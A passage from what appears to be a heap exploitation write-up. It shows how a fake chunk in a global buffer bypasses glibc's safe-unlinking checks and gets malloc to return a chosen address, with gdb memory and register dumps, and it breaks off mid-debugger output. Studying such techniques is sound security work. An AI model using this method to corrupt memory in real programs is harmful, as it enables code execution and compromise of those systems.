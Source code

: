 Our fake chunk will start at `0x804a0b0`. There is no need to set the `cur_size` field of this fake chunk to anything so we just set it to `0x0`.
Our `p->fd` and `p->bk` pointers are both set to point back to itself, or `0x0804a0b0`, which will allow us to bypass safe unlinking checks, which verify that `p->fd->bk = p` and `p->bk->fd = p`.

After we call `free()` on chunk B, we can observe that it has successfully been backwards consolidated with a fake chunk at address `0x804a0b0`. 

{% highlight bash %}
gdb-peda$ x/64xw 0x804a060
0x804a060 <tmp>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a070 <tmp+16>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a080 <tmp+32>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a090 <tmp+48>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0a0 <tmp+64>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0b0 <tmp+80>:	0x00000000	0x0080e061	0xf7708450	0xf7708450
0x804a0c0 <tmp+96>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0d0 <tmp+112>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0e0 <ptrs>:	0x08858008	0x08858090	0x08858118	0x00000000
0x804a0f0 <ptrs+16>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a100 <ptrs+32>:	0x00000000	0x00000000	0x00000000	0x00000000
{% endhighlight %} 

Notice that the size is now very large: `0x0080e061`.
That is because the memory allocator now thinks that this chunk takes up all the memory space from to `0x804a0b0` to `0x8858114`.
**This is no good and will cause the next** `malloc()` **to fail due to size checks.**

Therefore, we need to edit our `tmp` global buffer again, but this time, simply to replace the fake chunk size with something much smaller.
A fake chunk size of `0x100` will do.

{% highlight bash %}
0x804a0b0 <tmp+80>:	0x00000000	0x00000100	0xf770840a	0xf7708450
{% endhighlight %}

Of couse, this means that the newline character that comes at the end of our stdin input  will corrupt `fake_chunk->fd`, but that we don't care about that, as no checks are run on it!

Once we've made that change, we observe that our next `malloc()` call successfully returns `0x804a0b8`!

{% highlight bash %}
gdb-peda$ c
Continuing.
[----------------------------------registers-----------------------------------]
EAX: 0x1 
EBX: 0xf7708c20 --> 0xfbad208b 
ECX: 0xf77098a4 --> 0x0 
EDX: 0xa ('\n')
ESI: 0x0 
EDI: 0x0 
EBP: 0xffb9fbf8 --> 0x0 
ESP: 0xffb9fbd0 --> 0x80 
EIP: 0x8048669 (<main+142>:	call   0x8048480 <malloc@plt>)
EFLAGS: 0x296 (carry PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x804865f <main+132>:	jne    0x80486c9 <main+238>
   0x8048661 <main+134>:	sub    esp,0xc
   0x8048664 <main+137>:	push   0x80
=> 0x8048669 <main+142>:	call   0x8048480 <malloc@plt>
   0x804866e <main+147>:	add    esp,0x10
   0x8048671 <main+150>:	mov    DWORD PTR [ebp-0x10],eax
   0x8048674 <main+153>:	sub    esp,0x8
   0x8048677 <main+156>:	push   DWORD PTR [ebp-0x10]
Guessed arguments:
arg[0]: 0x80 